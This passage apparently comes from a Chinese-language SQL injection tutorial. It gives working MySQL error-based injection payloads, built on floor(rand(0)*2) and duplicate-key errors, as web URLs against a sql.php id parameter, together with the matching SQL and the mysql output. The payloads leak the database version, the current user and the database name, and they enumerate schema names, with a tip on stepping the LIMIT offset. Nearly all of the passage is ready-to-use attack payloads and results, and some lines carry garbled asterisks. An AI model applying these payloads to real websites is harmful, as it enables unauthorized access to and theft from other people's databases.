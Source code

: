 ```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~5.5.53~1' for key 'group_key'
```

### 0x02 爆当前连接用户

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~root@localhost~1' for key 'group_key'
```

### 0x03 爆当前连接的数据库

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> select * from test where id =1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);

ERROR 1062 (23000): Duplicate entry '~test~1' for key 'group_key'
```

### 0x04 爆库名

注意: LIMIT 0 修改会显示其他库名

例如:

修改为0 就是出1库

修改为1 就是出2库

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句-爆库名1: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
